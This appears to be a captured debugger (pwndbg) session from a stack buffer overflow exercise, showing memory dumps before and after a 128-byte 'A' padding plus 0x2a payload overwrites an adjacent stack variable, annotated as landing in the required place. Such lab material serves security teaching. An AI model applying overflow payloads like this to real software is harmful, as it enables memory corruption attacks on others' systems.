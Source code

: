 ```
0xffffd030:	0x00000001	0xffffd1f8	0x00000000	0xffffd250
0xffffd040:	0xffffd27e	0xffffd2ca	0xffffd2dc	0xffffd2ed
0xffffd050:	0xffffd306	0xffffd31a	0xffffd34a	0xffffd388
0xffffd060:	0xffffd399	0xffffd3a3	0xffffd3c4	0xffffd3da
0xffffd070:	0xffffd414	0xffffd41f	0xffffd442	0xffffd453
0xffffd080:	0xffffd486	0xffffd491	0xffffd4a0	0xffffd4bc
0xffffd090:	0xffffd504	0xffffd516	0xffffd53b	0xffffd554
0xffffd0a0:	0xffffd567	0xffffd57d	0xffffd58a	0xffffd5a8
0xffffd0b0:	0xffffd5c6	0xffffd5fa	0xffffd616	0xffffd629
0xffffd0c0:	0xffffd696	0xffffd6a7	0xffffd6c5	0xffffd6d8
0xffffd0d0:	0xffffd71b	0xffffd730	0xffffd744	0xffffd75f
0xffffd0e0:	0xffffd77c	0xffffd7c8	0xffffd81b	0xffffd832
0xffffd0f0:	0xffffd83f	0xffffd85b	0xffffd888	0xffffd89c
0xffffd100:	0xffffd8a4	0xffffd8fa	0xffffd90f	0xffffd91a
0xffffd110:	0xffffd922	0xffffd942	0xffffdf31	0xffffdf8b
0xffffd120:	0xffffdf94	0x00000000	0x00000020	0xf7fcf550
0xffffd130:	0x00000021	0xf7fcf000	0x00000033	0x000006f0
0xffffd140:	0x00000010	0x178bfbff	0x00000006	0x00001000
0xffffd150:	0x00000011	0x00000064	0x00000003	0x56555034
0xffffd160:	0x00000004	0x00000020	0x00000005	0x0000000b
0xffffd170:	0x00000007	0xf7fd1000	0x00000008	0x00000000
0xffffd180:	0x00000009	0x56556080	0x0000000b	0x00000000
0xffffd190:	0x0000000c	0x00000000	0x0000000d	0x00000000
0xffffd1a0:	0x0000000e	0x00000000	0x00000017	0x00000000

Post-input run <<< $(python -c 'print("A"*128+"\x2a")')
pwndbg> x/192x $esp
0xffffceb0:	0xffffcecc	0xffffdf94	0xf7ffd000	0x565561c8
0xffffcec0:	0x00000000	0x00000000	0xfffffa00	0x41414141
0xffffced0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcee0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcef0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf00:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf10:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf20:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf30:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf40:	0x41414141	0x41414141	0x41414141	0x0000002a <--- 0x2a inserted in the place required!
0xffffcf50:	0x56559000	0x56559000	0xffffcf78	0x56556254
0xffffcf60:	0x00000001	0x00000002	0x00000003	0x5655622d
0xffffcf70:	0xffffcf90	0x00000000	0x00000000	0xf7ddffd6
0xffffcf80:	0xf7fab000	0xf7fab000	0x00000000	0xf7ddffd6
0xffffcf90:	0x00000001	0xffffd034	0xffffd03c	0xffffcfc4
0xffffcfa0:	0xffffcfd4	0xf7ffdb60	0xf7fc9410	0xf7fab000
0xffffcfb0:	0x00000001	0x00000000	0xffffd018	0x00000000
0xffffcfc0:	0xf7ffd000	0x00000000	0xf7fab000	0xf7fab000
0xffffcfd0:	0x00000000	0x0f8cb3f9	0x4bec8de9	0x00000000
0xffffcfe0:	0x00000000	0x00000000	0x00000001	0x56556080
0xffffcff0:	0x00000000	0xf7fe7a60	0xf7fe2280	0x56559000
0xffffd000:	0x00000001	0x56556080	0x00000000	0x565560b1
0xffffd010:	0x56556219	0x00000001	0xffffd034	0x56556270
0xffffd020:	0x565562d0	0xf7fe2280	0xffffd02c	0xf7ffd9a0
0xffffd030:	0x00000001	0xffffd1f8	0x00000000	0xffffd250
0xffffd040:	0xffffd27e	0xffffd2ca	0xffffd2dc	0xffffd2ed
0xffffd050:	0xffffd306	0xffffd31a	0xffffd34a	0xffffd388
0xffffd060:	0xffffd399	0xffffd3a3	0xffffd3c4	0xffffd3da
0xffffd070:	0xffffd414	0xffffd41f	0xffffd442	0xffffd453
0xffffd080:	0xffffd486	0xffffd491	0xffffd4a0	0xffffd4bc
0xffffd090:	0xffffd504	0xffffd516	0xffffd53b	0xffffd554
0xffffd0a0:	0xffffd567	0xffffd57d	0xffffd58a	0xffffd5a8
0xffffd0b0:	0xffffd5c6	0xffffd5fa	0xffffd616	0xffffd629
0xffffd0c0:	0xffffd696	0xffffd6a7	0xffffd6c5	0xffffd6d8
0xffffd0d0:	0xffffd71b	0xffffd730	0xffffd744	0xffffd75f
```